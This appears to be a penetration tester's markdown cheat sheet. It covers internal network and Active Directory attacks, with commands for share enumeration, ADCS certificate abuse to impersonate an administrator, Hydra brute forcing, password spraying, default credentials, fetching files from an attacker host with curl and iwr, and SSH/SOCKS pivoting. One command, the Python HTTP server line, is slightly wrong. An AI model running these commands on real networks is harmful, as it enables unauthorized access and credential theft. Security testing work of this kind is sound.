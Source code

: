 ## Overview
Network testing is all about finding the services that are communicating over the network and exploiting them to gain initial access or escalate privileges. Identify services that might be sending authentications in plaintext or services that allow unauthenticated access. It is also very common to find internal web applications with no protections in place that might allow for unauthenticated access to things like file shares. 
## Theory
**SMB Null Sessions** - Misconfigured SMB servers might allow users to authenticate to SMB without a username or password or with the guest account and no password. This could allow you to read all of the files in SYSVOL or other file shares present on individual systems.
**LLMNR/NBT-NS Poisoning** - On most networks, it is possible to send responses to LLMNR and NBT-NS requests and impersonate a legitimate service to capture hashes. 
**WPAD/mDNS Spoofing** - On most networks, it is possible to spoof responses to mDNS and WPAD requests to man-in-the-middle traffic between the requesting device and the intended destination. 
**IPv6 Attacks** - By default, Windows devices attempt to use IPv6 to find domain controllers which allows attackers to respond to devices attempting to locate a domain controller and collect hashes. 
**NTLM Relay/Pass-The-Hash** - With captured NTLM hashes, it is sometimes possible to relay or pass those credentials to authenticate to another system without having to crack the NTLM hash. 
**ADCS Attacks** - Misconfigured certificate templates can allow a low-privilege user to request a certificate that will allow them to authenticate as a user with a higher level of privilege. 
## Tools/Commands
### SMB Testing
Get accessible shares from list of hosts
- `crackmapexec smb scope.txt -u $user -p $password --shares
Map readable files
- `smbmap -H $rhost -u $user -p $password -R --depth 3 --exclude IPC$`
- `crackmapexec smb $rhost -u $user -p $password -M spider_plus`
### Active Directory
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
https://zer1t0.gitlab.io/posts/attacking_ad/
- [ ] NTLM Relay
- [ ] IPv6 (MITM6)
#### ADCS Abuse
Windows enumerate vulnerable certificates
- `certify.exe find domain.local/user:pass@domain.local -vulnerable`
Linux enumerate vulnerable certificates
- `certipy-ad find -u 'user' -p 'pass' -dc-ip '127.0.0.1' -vulnerable -stdout`
Request vulnerable certificate for admin
- `certipy-ad req -u 'user' -p 'pass' -dc-ip '127.0.0.1' -ca 'DOMAIN-CA' -target 'dc.local' -template 'VULN-TEMPLATE' -upn 'administrator@domain.local' -ns '127.0.0.1'`
#### GetNPUsers
#### GetUserSPNs

### Linux
Check for `sudo no password` commands
- `sudo -l`
- [GTFOBins](https://gtfobins.github.io)
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
Find files created by a user
- `find / -user $USER ! -path "*proc*" ! -path "*var*" ! -path "*dev*" 2>/dev/null`
- [ ] `sudo` version
- [ ] `ssh` version
- [ ] Kernel Exploits
## Password Attacks
### Testing Logins & MFA
#### Default Credentials
[CIRT Default Credential Lookup](https://cirt.net/passwords)
- `Admin:CompanyName`
- `Admin:Hostname`
- `root:toor`
- `Admin:Password`
- `Admin:Admin`
#### MFA Testing
https://www.blackhillsinfosec.com/exploiting-mfa-inconsistencies-on-microsoft-services/
#### Hydra
`hydra 127.0.0.1 ssh -l $user -P /wordlist.txt -s 22 -vV`
### Password Spraying
#### CrackMapExec
- `crackmapexec smb scope.txt -u users.txt -p passwords.txt`
#### Go365
- `go365 -endpoint rst -ul users.txt -pl passwords.txt -d domain.com -w 5 -delay 1600 -o go365_domain.txt`
#### WPScan
- `wpscan --url http://example.com -e u --passwords /usr/share/wordlists/pass.txt`
## Useful Tricks
### File Transfers
Simple HTTP server
- `python3 -m http-server`
- `curl http://$lhost:8000/file.sh > file.sh`
- `iwr -URI http://$lhost:8000/file.ps1 -UseBasicParsing > file.ps1`
SCP
- `scp user@host1.local:/file/to/send user@host2.local:/where/to/place`
### SSH Tunneling & Port Forwarding
SSH forward remote port 8000 to localhost:1234
- `ssh -L 1234:localhost:8000 user@$rhost`
SSH Dynamic SOCKS Proxy
- `ssh -D 9001 user@203.0.113.10`
Add SOCKS proxy
- `socks4 203.0.113.10 9001`
Use SOCKS proxy to run a command: 
- `proxychains4 crackmapexec smb $target --shares`